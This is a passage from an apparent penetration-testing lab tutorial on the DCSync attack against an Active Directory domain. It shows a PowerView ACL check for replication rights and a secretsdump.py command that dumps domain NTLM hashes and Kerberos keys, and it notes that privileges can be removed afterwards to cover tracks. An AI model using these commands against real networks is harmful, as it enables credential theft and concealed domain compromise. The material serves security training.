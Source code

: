 PowerView can be used to confirm that this standard user does indeed have the necessary permissions assigned to their account. We first get the user's SID in the above command and then check all ACLs set on the domain object (`"DC=inlanefreight,DC=local"`) using [Get-ObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainObjectAcl/) to get the ACLs associated with the object. Here we search specifically for replication rights and check if our user `adunn` (denoted in the below command as `$sid`) possesses these rights. The command confirms that the user does indeed have the rights.

```powershell
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
```

(adunn's SID)

```powershell
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

**If we had certain rights over the user (such as [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl)), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks. DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.**

Running the tool as below will write all hashes to files with the prefix `inlanefreight_hashes`. The `-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.

```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

